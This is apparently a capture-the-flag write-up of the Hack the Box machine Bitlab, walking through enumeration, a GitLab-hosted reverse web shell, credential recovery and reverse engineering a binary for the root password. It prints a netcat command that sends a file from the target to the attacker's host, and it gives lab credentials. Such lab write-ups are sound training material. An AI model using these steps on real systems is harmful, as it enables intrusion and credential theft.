 +++
author = "Nick"
categories = ["hack the box", "decrypt", "PHP", "gitlab", "GIT", "reverse shell", "psql", "ssh", "ollydbg", "reverse engineering"]
date = 2020-01-11T12:20:41Z
description = ""
draft = false
thumbnail = "/images/2019/10/bitlab_info.png"
slug = "hack-the-box-bitlab"
summary = "Welcome back! Today we are doing the machine Bitlab on Hack the Box. "
tags = ["hack the box", "decrypt", "PHP", "gitlab", "GIT", "reverse shell", "psql", "ssh", "ollydbg", "reverse engineering"]
title = "Hack the Box - Bitlab"

+++


Welcome back! Today we are doing the machine Bitlab on Hack the Box.

As usual we start with our nmap scan: ```nmap -sC -sV -oA bitlab_scan 10.10.10.114```.

Our initial scan comes back with two results. Ports ```22``` and ```80```. We see that port ```80``` is leaking some info in the scan from the ```robots.txt```:

```
Nmap scan report for 10.10.10.114
Host is up (0.087s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.72 seconds
```

Now I'll run ```gobuster``` against the URL:

```gobuster dir -u http://10.10.10.114 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -o go_results.txt --wildcard```. 

While that runs through I'll start to manually parse through the site and see if there are any glaring hints. This will usually include, checking default passwords, source code and looking up the platform that is running.

![](/images/2019/10/image-80.png)

The ```gobuster``` results show 5 potential locations. We browse through each and notice nothing particularly useful. However, if you continue to manually enumerate the page you will see there is a ```bookmarks.html``` link under the help section. When we follow this through we see there is an obfuscated JS function.

![](/images/2019/10/image-81.png)

When we de-obfuscate the function we get the following:

![](/images/2019/10/image-82.png)

It looks like an attempt to make an auto login type function. By passing the ```username``` clave and ```password``` of 11des0081x to the gitlab page. So we manually try these credentials and they work!

![](/images/2019/10/image-83.png)

Now that we have an authenticated. We can continue to look around the page to see what might be of use. At this point in the enumeration we have also run a ```searchsploit``` on gitlab to see what might be out there. We do see there are a few options, one of which might be promising. We will continue to sift through the commits. The ```index.php``` file has some execution happening on it which we might be able to leverage. We also see some interesting code under the snippets location. A username and password for the postrgres connector. We also have the admins profile page. We have the ability to create files and merge them. So this will be easy, we'll just upload a webshell, merge the branch and go to the page we've just created.

![](/images/2019/10/image-84.png)

We use the standard ```pentest monkey``` reverse web shell upload it, start our ```netcat``` listener, merge the branch and navigate to the page. Next thing you know we have a webshell.

![](/images/2019/10/image-85.png)

We try to snag the ```user.txt``` but run into a permissions issue. So we'll start enumerating with some standard tools, ```linenum``` and ```pspy64```. We fire up our ```SimpleHTTPServer``` and download what we need. While that runs we take a look at what we can run as a privileged user. We have the ability to ```git pull```. We also see that we are in a docker container, so we'll want to try an enumerate the other portion of the systems. As it turns out nmap is on the system and we have the ability to run it.

We run an nmap scan against the IP's that we've found to enumerate them a bit further. We come back with quite a listing:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2019-10-21 15:36 UTC
Nmap scan report for bitlab (172.19.0.1)
Host is up (0.00038s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

Nmap scan report for 172.19.0.2
Host is up (0.00051s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
6379/tcp open  redis

Nmap scan report for 172.19.0.3
Host is up (0.00038s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
5432/tcp open  postgresql

Nmap scan report for 172.19.0.4
Host is up (0.00011s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for 172.19.0.5
Host is up (0.00014s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8181/tcp open  intermapper

Starting Nmap 7.60 ( https://nmap.org ) at 2019-10-21 15:39 UTC
Nmap scan report for bitlab (172.17.0.1)
Host is up (0.000090s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
8000/tcp open  http-alt
```

Now we've got a fairly good idea of the landscape. Lets focus on gaining user. If we circle back around to the enumeration we did previously, we can try to leverage the hidden snippet we found. When we look at it, we see that it's making a database connection but that's it. So once the connection is made, we can just output the rows. We then create this file and merge the branch.

![](/images/2019/10/image-87.png)

Once we've merged the branch, we head over to the page name and see what results come back.

![](/images/2019/10/image-86.png)

Looks like we get a username and a ```base64``` encrypted password. We decode it and get ```ssh-str0ng-p@ss```. So either this entire string is the password or some combination of it is the ```ssh``` password. So when I try to ```ssh``` into the box as the user, I keep getting denied. So is this possibly not the right password? As the ```www-data user```, we try to change users to clave. We have the ability to but we don't seem to have the right password. Maybe the password is the hash, we are doing CTF's ;). Sure enough, the password was the hash and not the decrypted content.

![](/images/2019/10/image-88.png)

Now that we're are loggin in as clave, we snag our user.txt and move onto root. In Clave's home directory we have a binary called ```RemoteConnection.exe```. Now often Remote Connection tools can save credentials inside. So we'll transfer the binary back to our system start to reverse engineer it. So we set up a ```netcat``` listener on our machine. We then send the file on the remote machine: ```nc -w 3 10.10.15.236 1999 < RemoteConnection.exe```. Once we've received the file we can start to break it down.

We'll use [Ollydbg](http://www.ollydbg.de/) as our debugger to see what it may show. I also did a quick glace at the file in Ida as well. 

We'll load the application into Olly. Initially stepping into the application looking for the entry point that we can enter data to our application. We set a few breakpoints on those and start stepping in. We are able to quickly find what we are looking for:

![](/images/2019/10/image-89.png)

![](/images/2019/10/image-90.png)

![](/images/2019/10/image-91.png)

We have a root password here! Let's see if it works.

![](/images/2019/10/image-92.png)

It does indeed. Root flag captured! Overall a pretty easy box. I know that some people I spoke to said that you could go right from the low privileged shell to root using ```git pull```. There are multiple paths to root on this box. This is just how I did mine!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).



